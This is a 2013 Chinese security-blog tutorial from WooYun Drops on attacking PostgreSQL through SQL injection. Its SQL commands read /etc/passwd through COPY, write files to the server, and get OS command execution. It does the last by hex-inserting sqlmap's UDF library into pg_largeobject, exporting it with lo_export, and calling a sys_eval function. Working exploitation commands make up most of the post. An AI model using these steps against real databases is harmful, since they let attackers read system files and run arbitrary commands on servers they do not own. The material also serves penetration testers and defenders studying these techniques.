








# PostgreSQL 的那点事儿

2013/07/09 16:52 | [疯狗](http://drops.wooyun.org/author/疯狗 "由 疯狗 发布")   | [技术分享](http://drops.wooyun.org/category/tips "查看 技术分享 中的全部文章")  | 占个座先  | 捐赠作者

今天无意发现了个 PostgreSQL 环境，线上学习了下，一般的数据注射（读写数据库）差异不大，不做讨论，个人比较关心 PostgreSQL 的文件读取和命令执行方面。

### 0x00 文件读取/写入

* * *

PostgreSQL 8.1 以后提供了一组现成的文件操作函数

```
pg_logdir_ls()、pg_ls_dir()、pg_file_rename()、pg_file_write()、 pg_read_file()、pg_length_file() 
```

用这些就可以胡作非为了？你错了。。。

可以用这个函数直接读取/etc/passwd？实际情况下测试并未成功，因为 pg_xxx 这个 adminpack 将权限限制在了./postgresql/data 下面。

#### a）比如列目录



#### b）读取权限允许的文件



还有个写文件函数测试并未成功，而且只能像 data 下写也是满足不了需求的。

#### c）比较可行的文件读取方案





```
drop table wooyun;
CREATE TABLE wooyun(t TEXT);
COPY wooyun FROM '/etc/passwd';
SELECT * FROM wooyun limit 1 offset 0; 
```

利用注射修改偏移值很快就可以遍历出来了，但是还是有点寒碜，直接读出全部数据

```
DROP TABLE wooyun;
CREATE TABLE wooyun (t TEXT);
COPY wooyun(t) FROM '/etc/passwd';
SELECT * FROM wooyun; 
```



#### d）写入文件

```
DROP TABLE wooyun;
CREATE TABLE wooyun (t TEXT);
INSERT INTO wooyun(t) VALUES ('hello wooyun');
COPY wooyun(t) TO '/tmp/wooyun'; 
```



读一下看看是否存在


Bingo~

### 0x01 命令执行

```
enter code here 
```

这里大概有三种方式

#### a）利用 libc 中的 system() 函数

很多文件会让我们添加一个到 libc 库的自定义功能函数

```
CREATE FUNCTION system(cstring) RETURNS int AS '/lib/libc.so.6', 'system' LANGUAGE 'C' STRICT; 
```

但是返回错误

```
Error : ERROR:  incompatible library "/lib64/libc.so.6": missing magic block  
HINT:  Extension libraries are required to use the PG\_MODULE\_MAGIC macro. 
```

这是因为当 PostgreSQL 加载外部动态库的时候，会检查 MAGIC DATA，如果没有这个函数（Pg_magic_func），PostgreSQL 认为这个动态库不是 PostgreSQL 可以使用的动态库。具体逻辑请看 src/backend/utils/fmgr/dfmgr.c 中定义的 internal_load_library 函数源代码。

这样一来就等同于建立了一个“白名单”，系统自带的库默认我不再允许动态加载，所以此路不通（也许低版本走的通，但我手里这个不行）。

给一个 Pg_magic_func 代码样例：

```
extern PGDLLEXPORT const Pg_magic_struct * Pg_magic_func(void);
const Pg_magic_struct * 
Pg_magic_func(void)
{
    static const Pg_magic_struct Pg_magic_data = PG_MODULE_MAGIC_DATA;
    return &Pg_magic_data;
} 
```

#### b）利用 Perl/Python 脚本语言功能

在 zone 上看过一帖，http://zone.wooyun.org/content/1591，很纳闷为什么这样定义函数就可以执行系统命令，plperlu 又是啥，经过资料的挖掘，发现是 PostgreSQL 自带的一种程序语言支持。

具体可见这里（[`www.postgresql.org/docs/8.3/static/xplang.html`](http://www.postgresql.org/docs/8.3/static/xplang.html)）。

大概意思就是 PostgreSQL 允许用除了 SQL 和 C 的其他语言来编写函数，但这个很悲剧啊，我的环境没有安装 PostgreSQL 的 Python 和 Perl 支持，待我弄个环境在来实现下过程。

#### c）利用 C 语言自定义函数

Perl、Python 都能在 PostgreSQL 自定义了更不用说 C 了。

这个在 sqlmap 的 udf 目录下有现成的，而且还是根据版本加了 Pg_magic_func 函数的，可以加载。。。牛鞭！

```
FengGou:8.4 $ pwd
/Users/FengGou/sqlmap/udf/postgresql/linux/64/8.4
FengGou:8.4 $ ls
lib_postgresqludf_sys.so 
```

将 sqlmap 的 so 文件转为 16 进制的代码

```
7F454C4602010100000000000000000003003E0001000000C00C0000000000004000000000000000A0170000000000000000000040003800050040001A00190001000000050000000000000000000000000000000000000000000000000000008413000000000000841300000000000000002000000000000100000006000000881300000000000088132000000000008813200000000000A802000000000000B00200000000000000002000000000000200000006000000B013000000000000B013200000000000B01... ... 
```

老他么长的一段，怎么还原成二进制的 so 库文件呢？

这里感谢 @瞌睡龙 提供的 Tips，这里用到了 PostgreSQL 的 pg_largeobject“大对象数据”，官方原文：

```
pg_largeobject 表保存那些标记着"大对象"的数据。
一个大对象是使用其创建时分配的 OID 标识的。 
每个大对象都分解成足够小的小段或者"页面"以便以行的形式存储在 pg_largeobject 里。 
每页的数据定义为 LOBLKSIZE(目前是 BLCKSZ/4，或者通常是 2K 字节)。 
```

a）查看 PostgreSQL 目录

```
SELECT setting FROM pg_settings WHERE name='data_directory'; 
```

b）查询 id

```
select lo_creat(-1); 
```

oid 为当前对象大数据的标识符，我们要利用这个存储 UDF 文件内容。

c）oid 与上面保持一致

```
delete from pg_largeobject where loid=18412; 
```

等于变相清空"页面"，不要干扰库的生成

d）把 16 进制的 so 文件塞进去

```
insert into pg_largeobject (loid,pageno,data) values(18412, 0, decode('7F454CXXXXXXXXX000', 'hex')); 
```

e）利用 PostgreSQL 自带函数将大型对象导出到文件

```
SELECT lo_export(18412, 'cmd.so'); 
```

f）建立 UDF

```
CREATE OR REPLACE FUNCTION sys_eval(text) RETURNS text AS '/xxx/cmd.so', 'sys_eval' LANGUAGE C RETURNS NULL ON NULL INPUT IMMUTABLE; 
```

g）调用这个 UDF

```
select sys_eval('id'); 
```



也许服务器没装 PostgreSQL 的 Perl、Python 支持，但是 C 库是通用的。

参考：
[1](http://static.wooyun.org/201307/2013070916495021606_png.jpg)PostgreSQL SQL Injection Cheat Sheet
http://pentestmonkey.net/cheat-sheet/sql-injection/postgres-sql-injection-cheat-sheet
[2](http://static.wooyun.org/201307/2013070916501626793_png.jpg)OWASP Backend Security Project Testing PostgreSQL
https://www.owasp.org/index.php/OWASP_Backend_Security_Project_Testing_PostgreSQL
[3](http://static.wooyun.org/201307/2013070916503429269_png.jpg)PostGreSQL 注入学习(续篇)
http://www.hackol.com/news/201007270731289820885.shtml
[4](http://static.wooyun.org/201307/2013070916510067232_png.jpg)PostgreSQL Adminpack
http://www.postgresql.org/docs/8.4/static/adminpack.html
[5](http://static.wooyun.org/201307/2013070916512953973_png.jpg)PostgreSQL 外部动态连接库魔法块的使用
http://my.oschina.net/quanzl/blog/136907
[6](http://static.wooyun.org/201307/2013070916514499642_png.jpg)Chapter 37\. Procedural Languages
http://www.postgresql.org/docs/8.3/static/xplang.html
[7](http://static.wooyun.org/201307/2013070916515914176_png.jpg)postgresql "初级"注入大法
http://zone.wooyun.org/content/1591
[8](http://www.postgresql.org/docs/8.3/static/xplang.html)pg_largeobject

http://www.php100.com/manual/PostgreSQL8/catalog-pg-largeobject.html

**Tags:** [PostgreSQL](http://drops.wooyun.org/tag/postgresql)

版权声明：未经授权禁止转载 [疯狗](http://drops.wooyun.org/author/疯狗 "由 疯狗 发布")@[乌云知识库](http://drops.wooyun.org)

分享到：

### 相关日志

*   [Spring 框架问题分析](http://drops.wooyun.org/tips/2892)
*   [False SQL Injection and Advanced Blind SQL Injection](http://drops.wooyun.org/tips/4322)
*   [逆向基础（一）](http://drops.wooyun.org/tips/1517)
*   [shellcode 教程从新手到高手](http://drops.wooyun.org/tips/4225)
*   [浅谈 PHP 弱类型安全](http://drops.wooyun.org/tips/4483)
*   [利用 insert，update 和 delete 注入获取数据](http://drops.wooyun.org/tips/2078)